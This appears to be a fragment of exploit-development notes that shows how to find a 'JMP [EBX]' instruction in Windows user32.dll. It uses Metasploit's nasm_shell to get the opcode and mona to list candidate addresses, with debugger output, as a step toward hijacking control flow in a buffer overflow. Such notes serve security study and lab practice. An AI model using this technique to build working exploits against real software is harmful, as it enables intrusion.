


Find JMP to EBX pointer instruction in user32.dll
Generate opcode
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp [EBX]
00000000 FF23 jmp [ebx]
nasm >
Find address in user32.dll
76E6700B FF23 JMP DWORD PTR DS:[EBX]

Or use mona
!mona find -s "\xff\x23" -m user32.dll
----
0x76e6700b (b+0x0000700b) : "\xff\x23" | {PAGE_EXECUTE_READ} [USER32.dll] ASLR: True, Rebase: True, SafeSEH: True, OS: True, v6.0.6000.16386 (C:\Windows\system32\USER32.dll)
0x76e67bab (b+0x00007bab) : "\xff\x23" | {PAGE_EXECUTE_READ} [USER32.dll] ASLR: True, Rebase: True, SafeSEH: True, OS: True, v6.0.6000.16386 (C:\Windows\system32\USER32.dll)
0x76e690c6 (b+0x000090c6) : "\xff\x23" | {PAGE_EXECUTE_READ} [USER32.dll] ASLR: True, Rebase: True, SafeSEH: True, OS: True, v6.0.6000.16386 (C:\Windows\system32\USER32.dll)
